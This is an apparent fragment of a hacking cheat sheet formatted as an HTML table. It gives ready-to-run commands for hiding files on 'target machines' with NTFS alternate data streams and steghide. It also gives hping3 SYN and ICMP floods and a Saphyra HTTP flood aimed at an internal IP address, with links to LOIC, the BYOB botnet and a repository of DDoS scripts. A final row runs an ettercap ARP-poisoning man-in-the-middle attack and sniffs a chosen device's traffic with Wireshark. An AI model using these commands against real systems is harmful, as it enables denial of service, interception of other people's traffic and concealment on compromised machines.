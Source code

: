 <tr>
<th>Hide files on target machines</th>
<td>Steganography - hide files in windows and linux systems<br /></td>
<td>

Alternate Data Streams to hide file inside another file:<br />
$ mkdir myhiddenstuff<br />
$ cd  myhiddenstuff<br />
$ notepad supersecretfile.txt<br />
$ notepad nothingtoseehere.txt <br />
$ type supersecretfile.txt > nothingtoseehere.txt:supersecretfile.txt (this will hide supersecretfile.txt inside of nothingtoseehere.txt  with ADS)<br />
$ notepad nothingtoseehere.txt:supersecretfile.txt <br />
$ dir /r <br />
$ attrib +h filename.txt (make files hidden) <br />
<br />
$ sudo apt install steghide -y <br />
$ steghide embed -cf image.jpg -ef file.txt (to hide .txt inside .jpg)<br />
$ steghide extract -sf image.jpg <br />

<br /></td>
</tr>

<tr>
<th>DDoS from dark web</th>
<td>Distributed Denial of service & botnet<br /></td>
<td>

[tor browser](https://www.torproject.org/download/) <br />
[saphyra](https://securityintelligence.com/dissecting-hacktivists-ddos-tool-saphyra-revealed/) : http flood attack : HTTP get<br />
[low orbit ion cannon](https://en.wikipedia.org/wiki/Low_Orbit_Ion_Cannon); [byob](https://github.com/malwaredllc/byob)<br />
All the DDoS scripts from [H1R0GH057/Anonymous](https://github.com/H1R0GH057/Anonymous) are also in scripts/security/[ddos](../scripts/security/ddos/)<br />

$ sudo hping3 -1 --flood 10.7.1.50 (ping as dos)<br />

ICMP Flood / ping of death : but ICMP or ping response can be disabled.<br />

$ sudo hping3 -d 200 -p 80 -S --flood 10.7.1.50 (from multiple servers)<br />
$ python saphyra.py http://10.7.1.50 <br />
<br /></td>
</tr>

<tr>
<th>SNiFF network traffic (MiTM attack)</th>
<td>any device network traffic<br /></td>
<td>
use wireshark <br />
ARP Poisoning with ettercap: (Man in the middle and then wireshark)<br />
$ apt install wireshark <br />
$ apt install nmap <br />
$ apt install ettercap-text-only <br />
$ sudo nmap -sn 10.0.0.0/24 (start scanning the network for ip addresses of devices) <br />
$ sudo ettercap -T -S i wlan0 -M arp:remote /10.0.0.1// /10.0.0.129//(S = SSL, 10.0.0.1 is router and 10.0.0.129 is the target, then use wireshark to sniff ) <br />
In wireshark: ip.addr == 10.0.0.129 <br />
ip.addr == 10.0.0.129 && http (to filter no SSL cert destination ip from target device) <br />
Save wireshark sniffs as pcaps. Avoid http and telnet. <br />
<br /></td>
</tr>
